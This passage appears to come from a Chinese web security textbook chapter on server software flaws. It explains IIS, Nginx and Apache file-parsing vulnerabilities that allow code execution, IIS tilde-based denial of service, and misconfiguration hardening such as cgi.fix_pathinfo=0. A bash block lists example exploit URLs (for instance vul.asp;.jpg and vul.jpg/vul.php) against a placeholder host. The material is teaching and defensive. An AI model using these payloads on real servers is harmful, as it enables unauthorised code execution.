


#### 7.6.1.2 代码执行

上述 `CVE-2013-4547` 漏洞就可以导致 Web 服务器将非脚本文件扩展名对应的文件当作服务端脚本解析并执行。类似的知名漏洞有 `IIS 5.x/6.0 解析漏洞`，在网站下建立文件夹的名称中带有.asp、.asa等可执行脚本文件后缀为后缀的文件夹，其目录内的任何扩展名的文件都被 IIS 当作脚本文件来解析并执行。`IIS 6.0 文件解析漏洞`，IIS 6.0 分号后面的数据不被解析，也就是说 vul.asp;.jpg 将被当做 vul.asp 解析并执行。`IIS 7.0/IIS 7.5/ Nginx < 0.8.3 畸形 URI 解析漏洞`，在默认 Fast-CGI 开启状况下，访问以下网址，服务器将把 vul.jpg 文件当做 PHP 解析并执行。`Apache 解析漏洞`，Apache 对文件解析是从右到左开始判断解析。如果文件的扩展名没有配置默认的处理程序，就再往左判断解析。 如 vul.php.owf.rar，由于Apache无法解析 rar 和 owf 扩展名，但能够解析 php 扩展名，因此 Apache 会将 vul.php.owf.rar 当做 PHP 代码进行解析并执行。

```bash
# IIS 5.x/6.0 解析漏洞
http://www.vul.com/vul.asp/vul.jpg

# IIS 6.0 文件解析漏洞
http://www.vul.com/vul.asp;.jpg

# IIS 7.0/IIS 7.5/ Nginx < 0.8.3 畸形 URI 解析漏洞
http://www.vul.com/vul.jpg/vul.php

# Apache 解析漏洞
http://www.vul.com/vul.php.owf.rar
```

#### 7.6.1.3 拒绝服务

2012 年 6 月知名 Web 安全专家 Soroush Dalili 在公布了微软 IIS 服务器在[处理 `~` 字符时的缺陷](https://soroush.secproject.com/blog/2012/06/microsoft-iis-tilde-character-vulnerabilityfeature-short-filefolder-name-disclosure/)导致服务器上任意文件可被枚举探测存在性的同时，还公布了精心构造的包含一堆 `~` 字符的 URI 请求还可以导致 [.NET 框架拒绝服务](http://soroush.secproject.com/downloadable/iis_tilde_dos.txt)。类似的漏洞还有如 Apache 的[CVE-2018-1303](https://nvd.nist.gov/vuln/detail/CVE-2018-1303)、[CVE-2015-0253](https://nvd.nist.gov/vuln/detail/CVE-2015-0253)、[CVE-2004-0786](https://nvd.nist.gov/vuln/detail/CVE-2004-0786) 等等。

以上这些 Web 服务器相关的漏洞的修复主要依赖于升级版本或根据官方漏洞通告自己对存在漏洞的服务器打补丁，如果在不确定版本升级或打补丁是否会对运行在服务器上的代码带来兼容性方面的负面影响，还可以通过部署防火墙、入侵检测系统和应用防火墙等第三方安全系统来缓解。

### 7.6.2 不当配置缺陷

在前面的章节中介绍过的 `IIS 7.0/IIS 7.5/ Nginx < 0.8.3 畸形 URI 解析漏洞`、MySQL 的 `secure_file_priv` 参数正确配置对 SQL 注入时利用 DNS 进行带外数据传输的拦截作用分别体现了错误的服务配置和正确的服务配置在提升系统安全性方面的截然不同的两种效果。Nginx 的这个 URI 解析漏洞在不升级版本的情况下，实际只需要通过配置 `cgi.fix_pathinfo=0` 即可封堵上这个解析漏洞。如果需要自己通过配置的方式加固服务器基础软件（如 Web 服务器），强烈建议阅读官方文档中有关安全加固的内容。对于现代流行的服务器基础软件，大多数在发布的时候已经注意到遵循`默认安全（secure by default）`理念去保证默认配置的安全性。但这里需要特别注意的是，类似 [XAMPP](https://www.apachefriends.org/) 这样的面向开发环境而非生产环境的一键式基础服务软件安装配置工具所提供的缺省配置往往不能直接应用于生产环境，主要原因就在于其默认配置是面向开发调试环境优化的，很多情况下会默认开启调试模式和允许更详细和丰富的错误日志信息回显等，这些都是在生产环境中需要极力规避的危险设置。

## 延伸阅读

* [【代码审计】PHP文件包含漏洞利用总结](http://vinc.top/2016/08/25/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/)

